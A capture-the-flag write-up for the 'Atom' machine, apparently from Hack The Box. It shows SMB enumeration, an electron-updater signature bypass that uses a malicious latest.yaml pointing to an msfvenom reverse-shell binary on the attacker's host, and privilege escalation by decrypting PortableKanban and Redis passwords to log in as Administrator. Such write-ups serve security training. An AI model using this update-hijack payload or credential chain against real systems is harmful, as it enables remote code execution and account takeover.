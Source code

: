 # Atom

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (22) (6).png" alt=""><figcaption></figcaption></figure>

There's a `redis` server running on the machine, and also WinRM for whatever reason. SMB Shares might be accessible on this server.

### SMB Shares

Using `smbmap`, there is one share that is readable even without credentials.

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

The Software\_Updates one is new. We can connect to it and see what are the files present.

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

The PDF contained some useful information:

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

We can place an update within this share's client folders, and then a user would run it. This is probably the way to gain a reverse shell.

### Electron

When checking the web portal, we see that it's a regular corporate website.

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

There was a download button on the page, presumably to download the program used for this application. This would make us download a .exe file.

<figure><img src="../../../.gitbook/assets/image (25) (4).png" alt=""><figcaption></figcaption></figure>

We can actually open .exe files to find out what is within it.

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

When viewing the plugins directory, we would find an app.7z file which we can open to reveal the resources.

<figure><img src="../../../.gitbook/assets/image (15) (4).png" alt=""><figcaption></figcaption></figure>

We can take a look at the resources file to view the source code and stuff, and there we find more hints that this is a Electron application.

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

We can dive further into the .asar file using `asar`.

<figure><img src="../../../.gitbook/assets/image (27) (2).png" alt=""><figcaption></figcaption></figure>

Within the main.js file, we can find that `electron-updater` was imported within this application.

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Signature Bypass

Searching for exploits for electron-updater led me to this website:

{% embed url="https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html" %}

In short, it's possible to bypass the signature checks that determine if an electron update is legitimate or not. This is done through altering the `latest.yaml` file. So, by bypassing this signature check, the updater would execute any malicious code we use.

This is in line with the information on the PDF we found earlier, telling us to place updates within the share for it to be executed. We can follow the PoC provided.

First, we can generate a quick reverse shell binary with `msfvenom`.

<figure><img src="../../../.gitbook/assets/image (33) (4).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to change the name of this binary to have an `'` character within it. I named mine `v'rev.exe`. Then, we need to take the sha512 hash of this file and base64 encode it.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Then, we can create the `latest.yaml` file to have a custom HTTP path for the update with the hash value. Afterwards, we can host the binary on a Python HTTP server.

```yaml
version: 2.2.3
files:
  - url: http://10.10.16.9/r'ev.exe
    sha512: <hash value>
    size: 7168     
path: http://10.10.16.9/r'ev.exe
sha512: <hash value>
releaseDate: '2022-03-14T11:17:02.627Z'
```

Upon creation, we would need to put this YAML file within the client directory of the share we accessed earlier.&#x20;

<figure><img src="../../../.gitbook/assets/image (29) (3).png" alt=""><figcaption></figcaption></figure>

After a while, our HTTP server would get a hit and our listener port would catch a reverse shell.

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kanban Redis Creds

Within the user's Downloads folder, we can find a PortableKanban instance.

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Within the folder, we can find an encrypted password for the `redis` instance on the machine.

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Quick googling led me to an exploit, which allows for us to decrypt the passwords using DES.

{% embed url="https://www.exploit-db.com/exploits/49409" %}

I used CyberChef to decrypt the password using the key and IV extracted from the exploit.

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

After finding this password, we can use `redis-cli` to login to the redis instance.

### Redis Creds

Logging in:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

We can check all the keys present on this machine:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

The user key with some kind of GUID was the first I checked. We can do so with `get <name>`. This revealed another encrypted password for the Administrator.

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

We can decrypt this using the same CyberChef configurations.

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Then, we can use `evil-winrm` to log in as the administrator.

<figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>
